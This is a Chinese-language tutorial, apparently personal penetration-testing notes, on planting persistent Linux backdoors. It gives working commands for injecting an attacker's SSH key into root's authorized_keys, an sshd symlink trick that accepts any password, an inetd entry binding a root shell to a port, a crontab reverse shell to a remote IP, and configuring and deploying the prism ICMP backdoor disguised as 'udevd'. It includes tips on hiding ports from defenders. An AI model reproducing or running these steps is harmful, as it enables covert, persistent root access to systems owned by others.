





## ssh公钥免密后门

### 公钥私钥原理概述

公钥和私钥同时生成，**公钥用于加密，私钥用于解密**。公钥可以有很多人持有，但是私钥只能自己持有，在ssh服务中，将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized keys中,之后客户端利用私钥完成认证即可登录 <span data-type="text" style="color: var(--b3-font-color8);">该后门比较容易被发现(查看/root/.ssh/有几个公钥)。</span>

★ ssh连接，对方开启ssh需要对方密码才可登录，但如果写入公钥，不用密码就可以登录。

### ssh公钥免密实现步骤

生成公钥/私钥对——>  公钥复制到目标机中——>  更改authorized_keys的权限为 600  ——>  登录目标机

1. 在攻击机上生成公钥/私钥对   在中途会让输入密钥对的密码，由于需要实现免密登录，<span data-type="text" style="color: var(--b3-font-color8);">所以3次回车跳过即可</span>

    ```python
    ssh-keygen -t rsa
    ```

    ​​
2. 将攻击机 .ssh 目录下的 id_rsa.pub 复制到目标服务器的 /root/.ssh/authorized keys 文件里

    ```python
    scp ~/.ssh/id_rsa.pub root@192.168.72.56:/root/.ssh/authorized_keys 
    ```

    ​​
3. 在目标服务器中，将authorized keys的权限改为600

    ​​
4. 尝试是否可以不使用密码就登录到目标服务器

    ​​

## ssh软连接后门

### ssh软连接后门原理

sshd服务<span data-type="text" style="color: var(--b3-font-color8);">启用PAM认证机制</span>，在/etc/ssh/sshd\_config文件中，设置UsePAM 为yes。如果不启用PAM，系统严格验证用户密码，不能建立后门。

在/etc/pam.d/目录下，对应文件里包含"auth sufficient pam\_rootok.so"配置，<span data-type="text" style="color: var(--b3-font-color8);">只要PAM配置文件中包含此配置即可SSH任意密码登录</span>。

对比一下/etc/pam.d/sshd配置文件和/etc/pam.d/su配置文件，不难发现，前者没有包含如上配置，而后者包含该配置。

直接启动/usr/sbin/sshd,默认使用/etc/pam.d/sshd的pam配置文件，因而不能建立任意密码登录的后门。

而通过软链接的方式，实质上PAM认证是通过软链接的文件名（如：/tmp/su,/home/su），在/etc/pam.d/目录下寻找对应的PAM配置文件(如：/etc/pam.d/su)。

### ssh软连接后门制作

1. 创建软连接  设置监听端口号

    因为本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口进行伪装。

    ```python
    ln -sf /usr/sbin/sshd /tmp/su 
    /tmp/su -oPort=8888
    ```

    ​​
2. 尝试使用ssh连接目标服务器，使用<span data-type="text" style="color: var(--b3-font-color8);">任意密码</span>都可以登录 。

    ```python
    ssh root@192.168.72.56 -p 8080
    ```

    ​​

## inetd/xinetd 后门

监听外部网络请求(socket)的系统守护进程，当 inetd 接收到一个外部请求后,会根据这个请求到自己的配置文件中去找到实际处理它的程序再把接收到的socket交给那个程序处理

<span data-type="text" style="color: var(--b3-font-color8);">inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。</span>

inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。

位置是/etc/inetd.conf 配置格式

```python
 [service_name] [sock_type] [proto] [flags] [user] [server_path] [args]
#[服务名称][协议(tcp或udp)] [标 志(wait或 nowait)][属主][真实服务程序全路径][真实服务程序名称及参数]
```

1. inetd.conf配置  如果配置打开没有，就说明没有这服务，没有就不能使用，也不能在对方机子下载。

    ```python
    vi /etc/inetd.conf
    daytime stream tcp nowait root /bin/bash bash -i   #插入此行
    ```

    ​​

2. 启动服务​​
3. 在攻击机直接访问进入root    <span data-type="text" style="color: var(--b3-font-color8);">端口默认为13</span>

    ```python
    nc targetIP 13 
    ```

    ​

## Crontab 计划任务后门

Crontab 命令被用来提交和管理用户的需要周期性执行的任务,与windows下的计划任务类似

当安装完成操作系统后，默认会安装此服务工具,并且会自动启动 crond 进程，<span data-type="text" style="color: var(--b3-font-color8);">crond 进程每分钟会定期检查是否有要执行的任务</span>，如果有要执行的任务，则自动执行该任务.

相关命令

```python
crontab [-u user]-e      # 编辑某个用户的crontab文件内容 
crontab [-u user]-|      # 显示某个用户的crontab文件内容 
crontab [-u user]-[i]r   #从/var/spool/cron目录中删除某个用户的crontab文件,-i参数指定在删除用 户的crontab文件时是否有确认提示
```

1. 在目标机中设置计划任务   设置每分钟进行一次端口反弹

    ```python
    crontab -e

    */1 * * * * bash -i >& /dev/tcp/192.168.152.213/6666 0>&1
    ```

    ​​
2. 在攻击机中进行监听

    ​​

    ## prism后门

  项目地址 : [https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

   是Linux下的ICMP反弹后门工具，使用时将会在<span data-type="text" style="color: var(--b3-font-color8);">后台等待特定的主机/端口连接信息的ICMP数据包</span>  主动监听连接

1. 克隆到攻击机
2. 配置prism.c文件，修改宏定义部分

    ```python
    40 #ifdef STATIC
    41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
    42 # define REVERSE_PORT     19832   //连接到主控机的端口号
    43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
    44 #else
    45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
    46 # define ICMP_KEY         "linger"  //连接的密码
    47 #endif
    48
    49 #define VERSION          "0.5"   //版本信息
    50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
    51 #define SHELL            "/bin/sh"  //shell执行的位置
    52 #define PROCESS_NAME     "udevd"   //创建的进程名称
    ```

    ​​
3. 编译 prism.c 文件  <span data-type="text" style="color: var(--b3-font-color8);"> 为了防止环境问题，可以上传到靶机再编译。</span>

    ```python
    gcc -DDETACH -Wall -s -o prism prism.c
    ```

    ​​
4. 编译完成后，可以查看 prism后门的配置信息

    ```python
    ./prism Inf0    # I大写  0
    ```

    ​​
5. ```python
    scp 【本地要上传文件地址】  [用户名]@[ip地址]：远程地址
    ```

    ​​
6. 上传到靶机之后--需要启动才能成功

    ```python
    ./prism
    ```

7. 在攻击机使用sendPacket.py脚本发送包到后门主机激活，本地监听相关端口等待后门主机反弹连接

    ```python
    nc -lvvp 19832    #监听的端口要和prism里配置的一致  
    python2 ./sendPacket.py 192.168.72.56 p4ssw0rd 192.168.72.36 19832    # 被攻击IP地址 连接密码 攻击者IP地址 回连端口
    ```

​​

注意：

1. 被攻击端需要启动后门  ./prism  才能成功
2. 最后一步先监听再发送请求包

‍
